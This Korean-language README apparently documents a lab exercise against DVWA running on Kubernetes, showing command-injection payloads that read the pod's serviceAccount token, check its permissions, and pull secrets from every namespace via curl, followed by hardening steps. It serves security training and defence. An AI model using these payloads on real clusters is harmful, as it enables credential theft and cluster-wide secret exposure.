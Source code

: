 # 공격 시나리오
* serviceAccount 토큰을 사용하여 쿠버네티스 secret을 탈취


# 공격 방법
1. serviceAccount token 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token
```

![token](./imgs/attack1_token.png)

2. pod(정확한 표현은 serviceAccount)의 namespace 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/namespace
```

![token](./imgs/attack1_namespace.png)

3. serviceAcount token 권한 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -X POST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1","kind":"SelfSubjectRulesReview","spec":{"namespace":"dvwa"}}' https://kubernetes.default.svc.cluster.local/apis/authorization.k8s.io/v1/selfsubjectrulesreviews; }
```

![token](./imgs/attack1_authorization.png)

4. 모든 namespace의 secrets 탈취

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://kubernetes.default.svc.cluster.local/api/v1/secrets; }
```

![steal_secrets](./imgs/attack1_steal_secrets.png)

# 보안조치
* [role](./manifests/dvwa_webapp/clusterrole.yaml)에서 필요한 권한(최소권한)만 설정
* [clusterrole binding](./manifests/dvwa_webapp/clusterrolebinding.yaml)를 rolebinding으로 변경 -> 다른 namespace 접근 불가
* token이 불필요하면 automountServiceAccountToken을 false로 설정
* secret 데이터는 암호화해서 저장(써드파티 사용, 예: vault)

# 참고자료
* https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/abusing-roles-clusterroles-in-kubernetes
